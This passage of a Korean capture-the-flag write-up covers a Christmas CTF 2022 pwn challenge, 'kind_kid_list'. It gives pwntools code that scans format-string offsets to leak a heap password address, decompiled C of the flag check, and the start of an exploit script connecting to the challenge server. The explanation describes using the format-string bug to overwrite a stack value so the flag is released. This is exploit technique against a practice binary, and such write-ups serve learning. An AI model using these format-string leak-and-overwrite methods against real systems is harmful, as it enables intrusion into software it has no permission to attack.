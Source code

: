 ```python
    sla(">> ", "2")
    sla("Password : ", f"%{offset}$p")
    print(rvl()+(str(offset).encode()))
    offset += 1

r.interactive()
```

대충 이렇게 오프셋 싹다 찍어보는거 짜준다음에 패스워드 들어있는 힙주소 나오는 오프셋 찾아서 써줬다.

```c
if ( !strcmp(v20, "wyv3rn") )
{
  for ( i = 0; i <= 5; ++i )
  {
    v9 = &src[i];
    if ( !strcmp(&dest[i], v9) )
    {
      puts("Wyv3rn : My name is still remain on the naughty kid list!");
      exit(0);
    }
  }
  puts("\nWyv3rn : You did it!");
  puts("Wyv3rn : Here is flag!");
  flag("Wyv3rn : Here is flag!", v9, v10, v11, v12, v13);
  exit(0);
}
```

플래그 주는 부분 보면 패스워드 맞추고 첫번째로 입력한 이름이 wyv3rn이어야 하고 그다음 조건에는 src[i]랑 dest[i]랑 문자열이 항상 달라야 한다.

![Untitled](../files/christmas%20ctf%202022%205793e210ad10417bab0c141efed21db1/Untitled%2027.png)

하지만 처음에 strcpy로 같은 값으로 세팅해줘서 일반적인 상황에서는 마지막 for문에서 걸려서 플래그를 못따게 된다. 그래서 조금 고민하다가 fsb로 저 두개중에 하나를 덮어서 값을 다르게 만들자는 생각을 했고 stack leak딴다음에 패스워드 맞추면 이름 입력하는 기능 이용해서 스택에 덮으려는 주소 넣어줬고 패스워드 힙주소 offset알아낼때 썼던 코드 그대로 써서 offset을 쉽게 알아냈다.

```python
from pwn import *

#context.log_level = "debug"

sla = lambda x, y : r.sendlineafter(x, y)
sa = lambda x, y : r.sendafter(x, y)
rvu = lambda x : r.recvuntil(x)
rv = lambda x : r.recv(x)
rvl = lambda : r.recvline()

#r = process("./kind_kid_list")
r = remote("host1.dreamhack.games", 9141)

'''offset = 1
```